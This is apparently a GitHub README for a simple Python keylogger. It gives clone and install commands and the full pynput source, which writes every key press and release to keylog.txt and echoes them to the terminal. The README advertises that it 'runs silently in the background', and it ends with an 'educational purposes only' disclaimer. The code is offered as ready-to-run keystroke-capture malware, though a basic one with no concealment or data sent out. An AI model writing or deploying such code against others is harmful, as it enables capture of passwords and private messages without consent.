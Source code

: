 🔑 Keylogger in Python 🖥️
📌 About
This is a basic keylogger built using Python and pynput library. It records all keystrokes and logs them into a file named keylog.txt. The keylogger runs in the background and captures both normal and special keys.

🚀 Features
✅ Logs all keystrokes (letters, numbers, and symbols)
✅ Records special keys (Enter, Space, Backspace, etc.)
✅ Stores keystrokes in a log file (keylog.txt)
✅ Runs silently in the background
✅ Safe exit by pressing ESC

🛠️ Installation
1️⃣ Clone the Repository:

bash
Copy
Edit
git clone https://github.com/Kalyan16114421/KeyLogger
cd keylogger-python
2️⃣ Install Dependencies:

bash
Copy
Edit
pip install pynput
3️⃣ Run the Keylogger:

bash
Copy
Edit
python keylogger.py
🛑 How to Stop the Keylogger?
🚀 Press ESC key to safely stop the keylogger.
🛑 Alternatively, use Ctrl + C in the terminal to force stop it.
🔴 If running in the background, end "Python" process via Task Manager.

📜 Code Implementation
'''python
Copy
Edit
from pynput import keyboard

def on_press(key):
   try:
      print(f"Alphanumeric key '{key.char}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
         f.write(f"Alphanumeric key '{key.char}' pressed\n")
   except AttributeError:
      print(f"Special key '{key}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
        f.write(f"Special key '{key}' pressed\n")

def on_release(key):
   print(f"'{key}' released") 
#print to terminal
   with open("keylog.txt", "a") as f:
      f.write(f"'{key}' released\n")

   if key == keyboard.Key.esc:
    # Stop listener
      return False

# Collect events until released
with keyboard.Listener(
on_press=on_press,
on_release=on_release) as listener:
    listener.join()
    ⚠️ Disclaimer
🛑 This project is for educational purposes only.
🔴 Unauthorized use of keyloggers is illegal. Use it responsibly.
